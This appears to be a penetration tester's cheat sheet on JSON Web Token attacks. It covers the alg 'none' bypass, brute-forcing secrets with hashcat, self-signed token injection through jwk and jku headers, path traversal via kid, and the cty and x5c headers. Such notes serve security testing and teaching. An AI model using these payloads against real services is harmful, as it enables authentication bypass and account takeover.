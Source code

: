 [[JWT]]
### Misconfiguration
##### Accepting arbitrary signatures
Developer run `decode()` and forgot to call`verify()`

##### Accepting tokens with no signature
```json
{
	"alg": "none"
}
```
Bypass server validation with case or encoding manipulation, e.g. `"NoNe"`
and remove the signature part of the token

##### Brute-forcing secret keys
https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
```bash
hashcat -a 0 -m 16500 <valid jwt> <wordlist>
```

### JWT header parameter injections
* jwk - json web key - key json object
* jwu - json web key set url - url to fetch the list of keys
* kid - key ID

##### Injecting self-signed JWT via jwk
example:
```json
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```
Attack with Burp JWT Editor:
1. With the extension loaded, in Burp's main tab bar, go to the JWT Editor Keys tab.
2. Generate a new RSA key.
3. Send a request containing a JWT to Burp Repeater.
4. In the message editor, switch to the extension-generated JSON Web Token tab and modify the token's payload however you like.
5. Click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key.
6. Send the request to test how the server responds.
##### Injecting self-signed JWTs via the jku parameter
typical URL is `/.well-known/jwks.json`
```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
```

##### Injecting self-signed JWTs via the kid parameter
```json
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```
attacks on kid:
* `../../../dev/null` and sign token with empty secret
* path traversal looking for key file
* SQL injection


#### Other interesting JWT header parameters
The following header parameters may also be interesting for attackers:
* cty (Content Type) - Sometimes used to declare a media type for the content in the JWT payload. This is usually omitted from the header, but the underlying parsing library may support it anyway. If you have found a way to bypass signature verification, you can try injecting a cty header to change the content type to text/xml or application/x-java-serialized-object, which can potentially enable new vectors for XXE and deserialization attacks.
* x5c (X.509 Certificate Chain) - Sometimes used to pass the X.509 public key certificate or certificate chain of the key used to digitally sign the JWT. This header parameter can be used to inject self-signed certificates, similar to the jwk header injection attacks discussed above. Due to the complexity of the X.509 format and its extensions, parsing these certificates can also introduce vulnerabilities. Details of these attacks are beyond the scope of these materials, but for more details, check out CVE-2017-2800 and CVE-2018-2633.
